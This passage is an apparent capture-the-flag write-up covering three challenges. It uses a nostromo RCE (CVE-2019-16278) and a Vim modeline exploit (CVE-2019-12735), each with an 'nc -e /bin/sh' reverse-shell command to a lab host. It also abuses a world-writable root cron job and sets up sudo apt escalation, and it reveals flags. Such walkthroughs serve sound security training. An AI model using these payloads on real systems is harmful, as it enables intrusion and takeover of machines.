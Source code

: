 Browsing an error page shows us that the webserver runs on nostromo 1.9.6 which is vulnerable to RCE [[CVE-2019-16278](https://www.exploit-db.com/exploits/47837)].

The vulnerability can be exploited using the python script form `exploit-db` or the module `exploit/multi/http/nostromo_code_exec` in metasploit.

```bash
python2 exploit.py 172.30.0.2 80 'nc -e "/bin/sh" 172.30.0.14 12345'
```

`ps aux` shows that there's `/tmp/start.sh` that's run by root. It's used to run `nhttpd` and `cron`.

In `/etc/crontab` there's a user defined entry

```text
* * * * * root /usr/bin/healthcheck
```

`healthcheck` is owned by root but has 777 permission.

Add `cat /root/flag.txt > /tmp/flag.txt` at the end, et voila!

🏁 __gigem{l1m17_y0ur_p3rm15510n5}__{:.spoiler}

## Obituary_1

> Hey, shoot me over your latest version of the code. I have a simple nc session up, just pass it over when you're ready.
> You're using vim, right? You should use it; it'll change your life. I basically depend on it for everything these days!

Server has port 4321 open.

Reading challenge description, we can assume that there's a nc session that pipes into vim.

Searching for vim vulnerabilites, lead us to a pretty version-specific vulnerability [CVE-2019-12735](https://github.com/numirias/security/blob/master/doc/2019-06-04_ace-vim-neovim.md)

```
echo ':!nc -e /bin/sh 172.30.0.14 4242||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="' | nc -ncvv 172.30.0.2 4321
```

It was the right one and it successfully popped a shell.

```
cat /home/mwazowski/flag.txt
```

🏁 __gigem{ca7_1s7_t0_mak3_suRe}__{:.spoiler}

## Obituary_2

> This is a continue of Obituary_1. Root is now required to read 2nd flag

In the home directory there's `note_to_self.txt` which covers the vim vulnerability and reports that `apt` is set as NOPASSWD in sudoers.

Let's get a shell using `apt Pre-Invoke` option to execute commands.
